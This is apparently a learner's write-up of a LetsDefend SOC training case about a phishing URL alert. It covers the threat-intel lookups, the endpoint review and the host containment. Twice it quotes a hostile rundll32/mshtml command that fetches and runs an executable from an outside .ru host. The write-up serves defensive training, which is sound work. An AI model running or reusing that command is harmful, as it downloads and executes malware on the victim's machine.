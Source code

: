 SOC141 - Phishing URL Detected
see results at :
https://app.letsdefend.io/case-management/casedetail/shakeco1/86

### Collection Data

Please check alert details fot belows.

- Source Address : 172.16.17.49
- Destination Address : 91.189.114.8
- User-Agent : Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

### Analyze URL Address

Analyze URL in 3rd party tools. Please click "Malicious" if it is malicious and click "Non-malicious" if it isn't.

You can use the free products/services below.
- [AnyRun](https://app.any.run/) (buisness)
- [VirusTotal](https://www.virustotal.com/)
- [URLHouse](https://urlhaus.abuse.ch/browse/)
- [URLScan](https://urlscan.io/)
- [HybridAnalysis](https://www.hybrid-analysis.com/)
- [AbuseIPDB](https://www.abuseipdb.com/)


- When was it accessed? Mar, 22, 2021, 09:23 PM
- What is the source address? 172.16.17.49
- What is the destination address? 91.189.114.8
- Which user tried to access? Emily
- What is User Agent? Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
- Is the request blocked? no

![[Pasted image 20250809174418.png]]

- **ה־Source** (המקור) → `172.16.17.49` (`EmilyComp`) — המחשב של **Emily** ברשת הפנימית שלך.
    
- **ה־Destination** (היעד) → `91.189.114.8` (`mogagrocol.ru`) — שרת זדוני באינטרנט (ברוסיה לפי הסיומת `.ru`).

AbuseIPDB :
![[Pasted image 20250809172204.png]]

virustotal:
![[Pasted image 20250809172350.png]]


it doesn't look like the IP adress is malicious 
lets check the URL now (http://mogagrocol.ru) :

![[Pasted image 20250809172554.png]]
 we can see 4/97 security vendors flagged this URL as malicious
 ![[Pasted image 20250809172649.png]]
 hybrid-analysis
![[Pasted image 20250809172837.png]]
urlscan.io
![[Pasted image 20250809172925.png]]


I will now check emily's computer and I see that a command has ran in the terminal 
![[Pasted image 20250809173229.png]]

rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')'

it seems like the computer might be infected with malware
![[Pasted image 20250809173319.png]]


now we will look if any other computers in our network communicated with this address (91.189.114.8)
![[Pasted image 20250809173829.png]]

we can see that only EmilyComp communicated with it.

we have contained emily's computer
untill further investigation 
![[Pasted image 20250809180645.png]]

Playbook Note:
on Mar, 22, 2021, 09:23 PM our SOC fired an alert of a suspected Phishing URL. our endpoint: Source Address : 172.16.17.49 Source Hostname : EmilyComp communicated with : Destination Address : 91.189.114.8 Destination Hostname : mogagrocol.ru Request URL : http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io after reviewing the endpoint it ran a script of the adress: rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')' the script called the following address: http://ru-uid-507352920.pp.ru/KBDYAK.exe therefore I containted the endpoint for further investigation.

